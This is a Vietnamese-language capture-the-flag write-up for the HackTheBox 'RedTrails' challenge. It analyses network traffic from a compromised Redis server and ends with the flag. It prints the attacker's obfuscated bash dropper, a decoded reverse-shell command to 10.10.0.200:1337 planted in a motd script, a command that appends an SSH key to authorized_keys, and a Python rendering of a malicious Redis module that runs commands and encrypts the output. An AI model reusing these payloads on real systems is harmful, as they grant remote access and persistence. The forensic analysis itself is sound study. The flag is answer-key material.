






## Desciption 
> Our SOC team detected a suspicious activity on one of our redis instance. Despite the fact it was password protected it seems that the attacker still obtained access to it. We need to put in place a remediation strategy as soon as possible, to do that it's necessary to gather more informations about the attack used. NOTE: flag is composed by three parts.
## Link challenge 
> https://app.hackthebox.com/challenges/RedTrails
## Solution
- Sau khi tải file ta thu được 1 file pcap 
- Chúng ta bắt đầu bằng cách xem các giao thức truyền tin 
- 
- Ở đây chỉ có 1 vài giao thức thông dụng và giao thức resp ([tài liệu ở đây](https://redis.io/docs/latest/develop/reference/protocol-spec/)), ta lọc theo luồng tcp trước. 
- Tại luồng tcp 0 mình tìm thấy 1 phần của flag 
- 
- Tại luồng thứ 1 ta thu được 1 đoạn powershell thực thi như sau 
```
gH4="Ed";kM0="xSz";c="ch";L="4";rQW="";fE1="lQ";s=" '==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
' | r";HxJ="s";Hc2="";f="as";kcE="pas";cEf="ae";d="o";V9z="6";P8c="if";U=" -d";Jc="ef";N0q="";v="b";w="e";b="v |";Tx="Eds";xZp=""
x=$(eval "$Hc2$w$c$rQW$d$s$w$b$Hc2$v$xZp$f$w$V9z$rQW$L$U$xZp")
eval "$N0q$x$Hc2$rQW"
```
- Chúng ta sẽ dùng cybercheff để decode nó ra 
- 
```
#!/bin/bash

lhJVXukWibAFfkv() {
	ABvnz='ZWNobyAnYmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3R'
	QOPjH='jcC8xMC4xMC4wLjIwMC8xMzM3IDA+JjEiJyA+IC9'
	gQIxX='ldGMvdXBkYXRlLW1vdGQuZC8wMC1oZWFkZXIK'
    echo "$ABvnz$QOPjH$gQIxX" | base64 --decode | bash
}

x7KG0bvubT6dID2() {
	LQebW="ZWNobyAtZSAiXG5zc2gtcnNhIEFBQUFCM056YUMxeWMyRUFBQUFEQVFBQkFBQUNBUUM4VmtxOVVUS01ha0F4MlpxK1BuWk5jNm5ZdUVL"
	gVR7i="M1pWWHhIMTViYlVlQitlbENiM0piVkp5QmZ2QXVaMHNvbmZBcVpzeXE5Smc2L0tHdE5zRW10VktYcm9QWGh6RnVtVGdnN1oxTnZyVU52"
	bkzHk="bnFMSWNmeFRuUDErLzRYMjg0aHAwYkYyVmJJVGI2b1FLZ3pSZE9zOEd0T2FzS2FLMGsvLzJFNW8wUktJRWRyeDBhTDVIQk9HUHgwcDhH"
	q97up="ckdlNGtSS29Bb2tHWHdEVlQyMkxsQnlsUmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3SzEzdEhYekVrN09jaVVtZDUvWjdZdW9s"
	GYJan="bnQzQnlYOWErSWZMTUQvRlFOeTFCNERZaHNZNjJPN28yeFIwdnhrQkVwNVVoQkFYOGdPVEcwd2p6clVIeG1kVWltWGdpeTM5WVZaYVRK"
	HJj6A="UXdMQnR6SlMvL1loa2V3eUYvK0NQMEg3d0lLSUVybGY1V0ZLNXNrTFlPNnVLVnB4NmFrR1hZOEdBRG5QVTNpUEsvTXRCQytScVdzc2Rr"
	fD9Kc="R3FGSUE1eEcyRm4rS2xpZDlPYm0xdVhleEpmWVZqSk1PZnZ1cXRiNktjZ0xtaTV1UmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3"
	hpAgs="SzEzdEhYekVrN09jaVVtZDUvWjdZdW9sbnQzQnlYOWErSWxTeGFpT0FEMmlOSmJvTnVVSXhNSC85SE5ZS2Q2bWx3VXBvdnFGY0dCcVhp"
	FqOPN="emNGMjFieE5Hb09FMzFWZm94MmZxMnFXMzBCRFd0SHJyWWk3NmlMaDAyRmVySEVZSGRRQUFBMDhOZlVIeUN3MGZWbC9xdDZiQWdLU2Iw"
	CpJLT="Mms2OTFsY0RBbzVKcEVFek5RcHViMFg4eEpJdHJidz09SFRCe3IzZDE1XzFuNTc0bmMzNSIgPj4gfi8uc3NoL2F1dGhvcml6ZWRfa2V5"
	PIx1p="cw=="
	echo "$LQebW$gVR7i$bkzHk$q97up$GYJan$HJj6A$fD9Kc$hpAgs$FqOPN$CpJLT$PIx1p" | base64 --decode | bash
}

hL8FbEfp9L1261G() {
	lhJVXukWibAFfkv
	x7KG0bvubT6dID2
}

hL8FbEfp9L1261G
```
- Phân tích 1 tí, ta thấy ở đây có 2 hàm được thực thi là lhJVXukWibAFfkv và x7KG0bvubT6dID2
- Đối với hàm lhJVXukWibAFfkv => Nó sẽ nối từng đoạn của các biến lại với nhau rồi chạy base64 decode, ta chỉ cần nối lại rồi decode là xong

```
┌──(kali㉿kali)-[~/Downloads]
└─$ echo "ZWNobyAnYmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4wLjIwMC8xMzM3IDA+JjEiJyA+IC9ldGMvdXBkYXRlLW1vdGQuZC8wMC1oZWFkZXIK" | base64 -d
echo 'bash -c "bash -i >& /dev/tcp/10.10.0.200/1337 0>&1"' > /etc/update-motd.d/00-header
```
- Có thể nhận thấy đây là câu lệnh cho phép kết nối với ip 10.10.0.200 port là 1337
- Hàm tiếp theo là x7KG0bvubT6dID2 : Mình sẽ thực thi trên 1 file riêng 
```
#!/bin/bash

x7KG0bvubT6dID2() {
    LQebW="ZWNobyAtZSAiXG5zc2gtcnNhIEFBQUFCM056YUMxeWMyRUFBQUFEQVFBQkFBQUNBUUM4VmtxOVVUS01ha0F4MlpxK1BuWk5jNm5ZdUVL"
    gVR7i="M1pWWHhIMTViYlVlQitlbENiM0piVkp5QmZ2QXVaMHNvbmZBcVpzeXE5Smc2L0tHdE5zRW10VktYcm9QWGh6RnVtVGdnN1oxTnZyVU52"
    bkzHk="bnFMSWNmeFRuUDErLzRYMjg0aHAwYkYyVmJJVGI2b1FLZ3pSZE9zOEd0T2FzS2FLMGsvLzJFNW8wUktJRWRyeDBhTDVIQk9HUHgwcDhH"
    q97up="ckdlNGtSS29Bb2tHWHdEVlQyMkxsQnlsUmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3SzEzdEhYekVrN09jaVVtZDUvWjdZdW9s"
    GYJan="bnQzQnlYOWErSWZMTUQvRlFOeTFCNERZaHNZNjJPN28yeFIwdnhrQkVwNVVoQkFYOGdPVEcwd2p6clVIeG1kVWltWGdpeTM5WVZaYVRK"
    HJj6A="UXdMQnR6SlMvL1loa2V3eUYvK0NQMEg3d0lLSUVybGY1V0ZLNXNrTFlPNnVLVnB4NmFrR1hZOEdBRG5QVTNpUEsvTXRCQytScVdzc2Rr"
    fD9Kc="R3FGSUE1eEcyRm4rS2xpZDlPYm0xdVhleEpmWVZqSk1PZnZ1cXRiNktjZ0xtaTV1UmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3"
    hpAgs="SzEzdEhYekVrN09jaVVtZDUvWjdZdW9sbnQzQnlYOWErSWxTeGFpT0FEMmlOSmJvTnVVSXhNSC85SE5ZS2Q2bWx3VXBvdnFGY0dCcVhp"
    FqOPN="emNGMjFieE5Hb09FMzFWZm94MmZxMnFXMzBCRFd0SHJyWWk3NmlMaDAyRmVySEVZSGRRQUFBMDhOZlVIeUN3MGZWbC9xdDZiQWdLU2Iw"
    CpJLT="Mms2OTFsY0RBbzVKcEVFek5RcHViMFg4eEpJdHJidz09SFRCe3IzZDE1XzFuNTc0bmMzNSIgPj4gfi8uc3NoL2F1dGhvcml6ZWRfa2V5"
    PIx1p="cw=="
    echo "$LQebW$gVR7i$bkzHk$q97up$GYJan$HJj6A$fD9Kc$hpAgs$FqOPN$CpJLT$PIx1p" | base64 --decode 
}

x7KG0bvubT6dID2
```

```
echo -e "\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQC8Vkq9UTKMakAx2Zq+PnZNc6nYuEK3ZVXxH15bbUeB+elCb3JbVJyBfvAuZ0sonfAqZsyq9Jg6/KGtNsEmtVKXroPXhzFumTgg7Z1NvrUNvnqLIcfxTnP1+/4X284hp0bF2VbITb6oQKgzRdOs8GtOasKaK0k//2E5o0RKIEdrx0aL5HBOGPx0p8GrGe4kRKoAokGXwDVT22LlBylRkA6+x6jZtd2gYhCMgSZ0iM9RyY7k7K13tHXzEk7OciUmd5/Z7Yuolnt3ByX9a+IfLMD/FQNy1B4DYhsY62O7o2xR0vxkBEp5UhBAX8gOTG0wjzrUHxmdUimXgiy39YVZaTJQwLBtzJS//YhkewyF/+CP0H7wIKIErlf5WFK5skLYO6uKVpx6akGXY8GADnPU3iPK/MtBC+RqWssdkGqFIA5xG2Fn+Klid9Obm1uXexJfYVjJMOfvuqtb6KcgLmi5uRkA6+x6jZtd2gYhCMgSZ0iM9RyY7k7K13tHXzEk7OciUmd5/Z7Yuolnt3ByX9a+IlSxaiOAD2iNJboNuUIxMH/9HNYKd6mlwUpovqFcGBqXizcF21bxNGoOE31Vfox2fq2qW30BDWtHrrYi76iLh02FerHEYHdQAAA08NfUHyCw0fVl/qt6bAgKSb02k691lcDAo5JpEEzNQpub0X8xJItrbw==HTB{r3d15_1n574nc35" >> ~/.ssh/authorized_keys  
```    
- Ta thu được phần đầu của flag : `HTB{r3d15_1n574nc35`
- Tiếp tục tìm kiếm trên luồng tcp, emìnhm tìm thấy 1 file elf
- 
- Dùng cybercheff để lấy file ra rồi dùng ida64 để phân tích 
- 
- Ta dùng chatgpt để convert qua python cho dễ đọc 
```
import subprocess
from Crypto.Cipher import AES
import hashlib

def hexStringToBytes(hex_string):
    return bytes.fromhex(hex_string)

def encrypt_data(data, key, iv):
    cipher = AES.new(key, AES.MODE_CBC, iv)
    return cipher.encrypt(data)

def execute_command(command):
    return subprocess.Popen(command, shell=True, stdout=subprocess.PIPE).stdout.read()

def convert_to_python(a1, a2, a3):
    if a3 != 2:
        return "RedisModule_WrongArity"

    command = execute_command(a2.decode())
    size = 4096
    dest = bytearray(size)
    dest_length = 0

    for chunk in command:
        chunk_length = len(chunk)
        if size <= dest_length + chunk_length:
            size *= 2
            dest = bytearray(size)

        dest[dest_length:dest_length+chunk_length] = chunk
        dest_length += chunk_length

    key = "h02B6aVgu09Kzu9QTvTOtgx9oER9WIoz".encode()
    iv = "YDP7ECjzuV7sagMN".encode()

    encrypted_data = encrypt_data(dest, key, iv)

    hex_string = encrypted_data.hex()
    return hex_string

# Usage example
result = convert_to_python(a1, a2, a3)
print(result)

```
- Thấy rằng đoạn code đang mã hoá 1 text với key và iv, bây giờ ta cần tìm text để decypt 
- 
- Ta decrypt lần lượt các đoạn text này ra 
- 
- 
- 
> Ghép Flag lại :  HTB{r3d15_1n574nc35_c0uld_0p3n_n3w_un3xp3c73d_7r41l5!}
